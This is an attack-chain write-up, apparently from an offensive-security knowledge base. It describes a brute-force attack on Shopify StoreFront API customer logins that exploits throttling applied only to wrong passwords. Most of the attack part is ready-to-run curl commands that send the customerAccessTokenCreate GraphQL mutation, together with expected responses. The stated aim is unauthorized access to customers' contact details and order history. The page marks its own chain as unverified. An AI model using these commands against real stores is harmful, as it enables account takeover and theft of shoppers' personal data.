

# Shopify StoreFront API Brute Force via Authentication Throttle Bypass

Multi-stage attack chain demonstrating a complete attack workflow exploiting Shopify's StoreFront API vulnerability where throttling applies only to invalid password attempts, enabling brute force attacks on customer accounts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Shopify StoreFront API endpoint
- GraphQL interface
- Network access to the API

### Initial Access Requirements

- Valid target store domain
- Partial knowledge of customer email
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Trigger Throttle with Invalid Passwords
procedure: [[procedures/Trigger-Login-Throttle-with-Invalid-Passwords]]

**Objective**: Exhaust the throttling limit by submitting multiple invalid login attempts to the customerAccessTokenCreate mutation, triggering the 'Login attempt limit exceeded' error.

**Instructions**: Use [[commands/curl-invalid-login]] to send repeated GraphQL mutations with invalid passwords for a target customer email until the throttle is hit:

```bash
curl -X POST https://target-store.myshopify.com/api/2023-01/graphql.json \
  -H 'Content-Type: application/json' \
  -H 'X-Shopify-Storefront-Access-Token: token' \
  -d '{"query": "mutation customerAccessTokenCreate($input: CustomerAccessTokenCreateInput!) { customerAccessTokenCreate(input: $input) { customerAccessToken { accessToken } userErrors { field message } } }", "variables": {"input": {"email": "target@example.com", "password": "wrongpass123"}}}'
```

Repeat this command multiple times (e.g., 5-10 attempts) until the response includes the 'Login attempt limit exceeded' error.

**Expected Output**: JSON response with error: {"data":{"customerAccessTokenCreate":{"userErrors":[{"field":["password"],"message":"Login attempt limit exceeded"}]}}}}

**Success Indicators**:
- Error message confirms throttle activation
- No access token returned

### Step 2: Bypass Throttle with Valid Password
procedure: [[procedures/Bypass-Throttle-with-Valid-Password]]

**Objective**: Submit a valid password to the same mutation immediately after throttling, succeeding in authentication and gaining access to the customer account.

**Instructions**: After confirming the throttle from Step 1, execute [[commands/curl-valid-login]] with the correct password:

```bash
curl -X POST https://target-store.myshopify.com/api/2023-01/graphql.json \
  -H 'Content-Type: application/json' \
  -H 'X-Shopify-Storefront-Access-Token: token' \
  -d '{"query": "mutation customerAccessTokenCreate($input: CustomerAccessTokenCreateInput!) { customerAccessTokenCreate(input: $input) { customerAccessToken { accessToken } userErrors { field message } } }", "variables": {"input": {"email": "target@example.com", "password": "correctpass456"}}}'
```

**Expected Output**: JSON response with successful access token: {"data":{"customerAccessTokenCreate":{"customerAccessToken":{"accessToken":"valid_token_here"}}}}

**Success Indicators**:
- Access token returned despite recent throttle
- Ability to query customer data (e.g., orders, contact info)

## Attack Chain Summary

### Key Achievements

1. Bypassed authentication throttling mechanism
2. Enabled efficient brute force on customer credentials
3. Gained unauthorized access to account details including contact information and order history

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Brute Force]] Brute Force
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
